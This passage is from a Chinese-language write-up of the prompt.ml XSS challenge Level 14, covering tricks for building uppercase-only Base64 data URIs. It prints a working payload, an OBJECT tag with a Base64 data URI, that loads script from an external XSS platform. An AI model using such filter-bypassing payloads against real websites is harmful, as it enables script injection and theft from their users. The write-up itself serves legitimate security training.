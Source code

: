 在试错的时候，我总结了几个技巧，不妨给大家借鉴一下：

- 推荐使用 Burp Suite 的 Decoder 编码器，可以即时看到 Base64 编码效果
- 这个 XSS 平台 [http://xss.tf](http://xss.tf) 会自动把 https 的请求转发到 http ，因此使用 http 或 https 都是可以的
- JS 中的标签名、属性名等不能用空字符破开
- URL 是大小写不敏感的，但不能使用空字符破开
- `HTTPS:` 在恰当的位置上得到的 Base64 编码是全大写的
- `HTTPS:` 后面可以不带 `//`
- `HTTPS:` 后面的 URL 部分可以使用 URL 编码，当单纯的字母无法构造大写编码时，试试 `%`
- URL 末尾可以利用参数符号 `?` 进行错位
- URL 开头可以利用 Basic Auth 进行错位 `user:pass@`（可参考 【[Level 04 - Basic Auth](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2004%20-%20Basic%20Auth)】）
- 大写字母 Base64 编码后更容易得到另一个大写字母
- 被编码的的字符串越短越容易控制


无论如何，前面利用 XSS 平台构造的 JS 代码，经过Base64 编码后得到：

`ICA8U0NSSVBUIC8KU1JDICAKPSAKICAKSFRUUFM6WFNTJTJFJTU0JTQ2L1RPSD4KPC9TQ1JJUFQKID4=`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2014%20-%20Base64/imgs/06.png)

于是利用它构造 payload 如下，并在 FireFox 浏览器提交，完成挑战：

```html
"><OBJECT/DATA="data:TEXT/HTML;BASE64,ICA8U0NSSVBUIC8KU1JDICAKPSAKICAKSFRUUFM6WFNTJTJFJTU0JTQ2L1RPSD4KPC9TQ1JJUFQKID4=
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2014%20-%20Base64/imgs/07.png)

> 注意：这题确实是有 BUG 的，虽然可以触发 `prompt(1)` ，但是却不会成功检测到

------------

### 利用本地 HTTP 服务器完成挑战

利用 XSS 完成挑战后，我又在想，感觉依赖第三方随机分配的域名才能完成挑战，实在太投机了，有没有办法我自己去控制域名，掌握主导权 ？

答案是肯定的。

其实从 [http://prompt.ml/](http://prompt.ml/) 某些题目依赖本地浏览器类型才能完成挑战就知道，它校验 payload 是否正确是在本地做的，即它不会把我们构造的 payload 上传到远程服务器进行认证。

换言之，当我们使用 XSS 平台来完成某些挑战的时候，向 XSS 平台发起请求的不是 [http://prompt.ml/](http://prompt.ml/) 服务器，而是我们本地的浏览器。

也就是说，只要我们本地浏览器可以访问到的服务器，都可以作为 XSS 服务器 —— 例如：我们在本地搭建一个 HTTP 服务器，让它只返回 `prompt(1)` 。

本地搭建 HTTP 服务器用来做 XSS 服务器的好处是，我们几乎不用怎么担心 URL 能不能构造成全大写字母的 Base64 编码的问题，因为这个 URL （或者说这个域名）完全是可以在本地伪造的。只需要先设计一个字符串，使得它在 Base64 编码后是全大写字母，然后将它设置成域名就可以了。

多说无益，接下来来看看怎么做。


------------

搭建 HTTP 服务器可以使用 [Apache Httpd](https://httpd.apache.org/) ， Windows 下无脑安装即可。

安装完成后，先不忙着搭建服务器。
